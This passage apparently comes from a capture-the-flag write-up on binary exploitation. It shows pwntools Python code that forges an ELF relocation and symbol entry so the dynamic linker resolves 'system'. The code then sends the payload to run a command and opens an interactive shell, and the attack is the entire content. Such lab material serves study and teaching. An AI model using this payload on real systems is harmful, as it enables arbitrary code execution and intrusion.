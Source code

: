 ```python
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align
index_dynsym = (fake_sym_addr - dynsym) / 0x10
r_info = (index_dynsym << 8) | 0x7
fake_reloc = p32(read_got) + p32(r_info)
st_name = (fake_sym_addr + 0x10) - dynstr
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)

payload2 = 'AAAA'
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += 'AAAA'
payload2 += p32(base_stage + 80)
payload2 += 'aaaa'
payload2 += 'aaaa'
payload2 += fake_reloc 
payload2 += 'B' * align
payload2 += fake_sym 
payload2 += "system\x00"
payload2 += 'A' * (80 - len(payload2))
payload2 += cmd + '\x00'
payload2 += 'A' * (100 - len(payload2))
p.sendline(payload2)
p.interactive()

```

## 0x04 BMS

